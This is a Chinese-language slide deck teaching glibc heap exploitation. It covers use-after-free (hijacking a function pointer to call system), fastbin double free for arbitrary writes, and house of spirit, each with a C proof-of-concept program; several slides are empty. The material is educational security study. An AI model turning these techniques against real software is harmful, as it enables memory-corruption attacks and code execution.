

---
presentation:
  width: 1600
  height: 900
  slideNumber: 'c/t'
  showSlideNumber: "all"
  center: true
  enableSpeakerNotes: true
  theme: none.css
---
<!-- slide data-notes="" -->
#堆溢出攻击
与栈相对的，堆是由低地址向高地址增长的。类似于栈，堆也是现代操作系统常用的缓冲区，堆一般在程序运行时由系统动态分配，使用后由系统动态回收，当遇到危险函数时，堆的数据也可能会发生溢出。同时我们可以注意到，因为堆上不会保存eip这类的寄存器数据，我们无法通过堆溢出直接控制程序的执行，所以堆溢出攻击相对于栈溢出攻击更为复杂和抽象。
<!-- slide data-notes="" -->
# Use After Free
一个内存块被释放后再次被使用。
## dangling pointer
被释放后却没有被设置为NULL的内存指针
## 根本原因
为了加快程序运行的速度，如果释放一块小于256kb的内存后，申请一块统一大小的内存空间，就会将刚刚释放的内存直接返回给申请者。

<!-- slide data-notes="" -->
## 实例代码
```c#
#include <stdio.h>
#include <stdlib.h>
typedef void (*func_ptr)(char *);

void evil_fuc(char cmd[])
{
system(cmd);
}
void echo(char content[])
{
printf("%s",content);
}
int main()
{
func_ptr *p1=(int*)malloc(4*sizeof(int));
printf("malloc addr: %p/n",p1);
p1[3]=echo;
p1[3]("hello world/n");
free(p1); //释放了p1，但并没有置为NULL
p1[3]("hello againn"); //p1仍可使用
func_ptr *p2=(int*)malloc(4*sizeof(int));
printf("malloc addr: %pn",p2);
printf("malloc addr: %pn",p1);//p2与p1指向同一地址
p2[3]=evil_fuc; //在这里将p1指针里面保存的echo函数指针覆盖成为了evil_func指针.
p1[3]("whoami");
return 0;
}
```
<!-- slide data-notes="" -->
# fastbin
管理16bytes-64bytes的chunk的`单向链表`数据结构，由于需要加速程序执行速度的原因，linux对于fastbin的检查较为松散，因此利用起来也较为方便。
## 单向链表
- 释放后的chunk插入表头
- 只使用fd指针，bk指针无效

<!-- slide data-notes="" -->
## 利用方法
覆盖相邻chunk的fd指针，释放并请求chunk，获得（覆盖地址+16）的写权限。

>没有溢出点怎么办

## double free
两次free()同一个chunk，使这个chunk可以在同一时间拥有`空闲的chunk`，`被分配的chunk`两种类型。
### double free条件
- fastbin 的堆块free()后，pre_inuse位不会被清空。
- fastbin 的double free检查只检查链表头部的chunk。
<!-- slide data-notes="" -->
明显的，直接double free 往往会被系统检测到并且报错。
free()函数会在链表头检查当前free的chunk和表头的chunk是否是同一个chunk，所以，若直接。
```c#
free(chunk1);
free(chunk1);
```
不会被通过，程序会检测到一场并退出。
<!-- slide data-notes="" -->
这里，_int_free 函数检测到了 fastbin 的 double free。上面提到的第二个原因，即free（）时仅验证了表头的chunk，所以要double free一个chunk1，可以先把表头的chunk改为其他chunk，下面我们在double free chun1之前先free 一个chunk2。
```c#
int main(void)
{
    void *chunk1,*chunk2,*chunk3;
    chunk1=malloc(0x10);
    chunk2=malloc(0x10);

    free(chunk1);
    free(chunk2);
    free(chunk1);
    return 0;
}
```
<!-- slide data-notes="" -->
### 第一次释放free(chunk1)

<!-- slide data-notes="" -->
### 第二次释放free(chunk2)

<!-- slide data-notes="" -->
### 第三次释放free(chunk1)

<!-- slide data-notes="" -->
可以看到这里的链表形成了一个循环，需要注意的是，chunk中有一个fd指针指向上一个chunk，这里chunk1的fd指针指向chunk2，而chunk2的指针指向chunk1。经过这三次释放之后，再一次malloc（），系统会首先分配chunk1给我们，这时在系统分配给我们的地址的前8位上写一个地址（即用一个地址覆盖fd指针），再malloc（）三次，就会返回（我们写上的地址+16），实现任意地址写。其中，倒数第二次返回了chunk1，进行最后一次malloc（）时会根据fd指针的值返回地址。
<!-- slide data-notes="" -->
### 示例代码
```c#
typedef struct _chunk
{
    long long pre_size;
    long long size;
    long long fd;
    long long bk;  
} CHUNK,*PCHUNK;

CHUNK bss_chunk;

int main(void)
{
    void *chunk1,*chunk2,*chunk3;
    void *chunk_a,*chunk_b;

    bss_chunk.size=0x21;
    chunk1=malloc(0x10);
    chunk2=malloc(0x10);

    free(chunk1);
    free(chunk2);
    free(chunk1);

    chunk_a=malloc(0x10);
    *(long long *)chunk_a=&bss_chunk;
    malloc(0x10);
    malloc(0x10);
    chunk_b=malloc(0x10);
    printf("%p",chunk_b);
    return 0;
}
```
上面的代码中我们首先把chunk.size置为0x21，用以绕过chunk分配时的大小检查。
<!-- slide data-notes="" -->
# House of spirit
有时候我们需要向一个区域写东西，碍于限制，直接的写入不太可能，如果我们可以控制这个区域相邻地址的值，我们就可以尝试使用house of spirit。
```
可控
目标区域（不可控）
可控
```
<!-- slide data-notes="" -->
## 目标
明显的，要想控制目标区域的值，如果我们可以通过malloc（）拿到指针，就可以说是完成了目标。
## free()后malloc()
要想通过malloc（）拿到指针，就意味着以目标区域为user data的chunk需要连接在表头，因为表头的chunk总是被第一个分配出去。而位于表头的chunk，一般是刚刚free（）掉的chunk，于是问题转移到了如果把这个chunk free（）掉。
<!-- slide data-notes="" -->
## 利用方法
House of spirit的思想就是伪造一个chunk来让free（）处理，再次分配，就得到了目标区域的写权限。
## fake chunk
需要满足以下条件：
- ISMMSP位不能为1，以跳过mmap处理
- 地址对齐
- 大小在fastbin的范围内
- `2*SIZE_SZ < next chunk < av->system_mem`
- 不能被double free
<!-- slide data-notes="" -->
## 示例代码
```c#
#include <stdio.h>
#include <stdlib.h>
int main()
{
fprintf(stderr, "This file demonstrates the house of spirit attack.\n");
fprintf(stderr, "Calling malloc() once so that it sets up its memory.\n");
malloc(1);
fprintf(stderr, "We will now overwrite a pointer to point to a fake 'fastbin' region.\n");
unsigned long long *a;
// This has nothing to do with fastbinsY (do not be fooled by the 10) - fake_chunks is just a piece of memory to fulfil allocations (pointed to from fastbinsY)
unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));
fprintf(stderr, "This region (memory of length: %lu) contains two chunks. The first starts at %p and the second at %p.\n", sizeof(fake_chunks), &fake_chunks[1], &fake_chunks[7]);
fprintf(stderr, "This chunk.size of this region has to be 16 more than the region (to accomodate the chunk data) while still falling into the fastbin category (<= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.\n");
fprintf(stderr, "... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. \n");
fake_chunks[1] = 0x40; // this is the size
fprintf(stderr, "The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.\n");
// fake_chunks[9] because 0x40 / sizeof(unsigned long long) = 8
fake_chunks[9] = 0x1234; // nextsize
fprintf(stderr, "Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, %p.\n", &fake_chunks[1]);
fprintf(stderr, "... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.\n");
a = &fake_chunks[2];
fprintf(stderr, "Freeing the overwritten pointer.\n");
free(a);
fprintf(stderr, "Now the next malloc will return the region of our fake chunk at %p, which will be %p!\n", &fake_chunks[1], &fake_chunks[2]);
fprintf(stderr, "malloc(0x30): %p\n", malloc(0x30));
}
```
<!-- slide data-notes="" -->
<!-- slide data-notes="" -->
<!-- slide data-notes="" -->
<!-- slide data-notes="" -->
<!-- slide data-notes="" -->
